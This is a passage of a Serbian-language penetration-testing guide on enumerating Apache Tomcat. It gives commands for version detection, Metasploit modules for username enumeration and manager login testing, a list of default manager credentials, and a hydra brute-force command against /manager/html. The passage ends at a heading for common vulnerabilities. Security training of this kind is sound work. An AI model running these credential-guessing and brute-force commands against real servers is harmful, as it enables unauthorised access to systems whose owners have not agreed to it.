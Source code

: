 ## Набрањивање

### **Идентификација верзије**

Да бисте пронашли верзију Apache Tomcat-a, може се извршити једноставна команда:

```bash
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat
```

### **Lokacija Datoteka Menadžera**

Identifikacija tačnih lokacija **`/manager`** i **`/host-manager`** direktorijuma je ključna jer se njihova imena mogu promeniti. Preporučuje se grubo pretraživanje kako bi se locirale ove stranice.

### **Enumeracija Korisničkih Imena**

Za Tomcat verzije starije od 6, moguće je enumerisati korisnička imena kroz:

```bash
msf> use auxiliary/scanner/http/tomcat_enum
```

### **Podrazumevane akreditacije**

Direktorijum **`/manager/html`** je posebno osetljiv jer omogućava otpremanje i implementaciju WAR datoteka, što može dovesti do izvršenja koda. Ovaj direktorijum je zaštićen osnovnom HTTP autentifikacijom, a česte akreditacije su:

* admin:admin
* tomcat:tomcat
* admin:
* admin:s3cr3t
* tomcat:s3cr3t
* admin:tomcat

Ove akreditacije mogu biti testirane korišćenjem:

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

Drugi značajan direktorijum je **`/manager/status`**, koji prikazuje verziju Tomcat-a i OS-a, pomažući u identifikaciji ranjivosti.

### **Napad grubom silom**

Za pokušaj napada grubom silom na direktorijum manager, može se koristiti:

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Uobičajene ranjivosti
